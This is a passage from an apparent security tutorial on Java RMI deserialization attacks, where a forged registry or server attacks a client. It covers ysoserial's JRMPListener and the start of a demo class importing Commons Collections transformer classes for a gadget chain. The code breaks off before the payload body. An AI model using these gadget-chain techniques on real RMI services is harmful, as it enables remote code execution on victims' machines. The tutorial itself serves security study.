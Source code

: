 ```java
```

![Demo2 result](./images/47.png)

## Attack the client
### Registration Center Attack Client
During the communication process, `RMI` interacts with the registry and the server. We can tamper with these two to achieve the purpose of attacking the client. For the registry, it is still triggered from the previous five methods:
 - bind
 - unbind
 - rebind
 - list
 - lookup

In each of the above methods, except for `unbind` and `rebind`, others will return data to the client. At this time, the data is serialized data, so the client will naturally deserialize it. Then you only need to forge the return data from the registration center to achieve the effect of attacking the client.

This attack method can use the `ysoserial``JRMPListener` attack module

### Server attacks the client
In `RMI`, the remote call method is passed back not necessarily a basic data type (String, int), but may also be an object. When the server returns an object to the client, the client must deserialize it accordingly. Therefore, we need to forge a server. When the client calls a remote method, the returned parameters are the malicious object we have constructed.

`Demo` code.

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 am
 */
public class RMIClientAttackDemo3 {
    public static void main(String[] args) throws Exception {

        // Get remote object instance
        Registry registry = LocateRegistry.getRegistry("localhost", 4321);

        RemoteInterface stub = (RemoteInterface) registry.lookup("demoCaseBegin");
        System.out.println(stub.demoCaseBegin(openCalculatorObject()));
    }

    public static Object openCalculatorObject() throws Exception {
```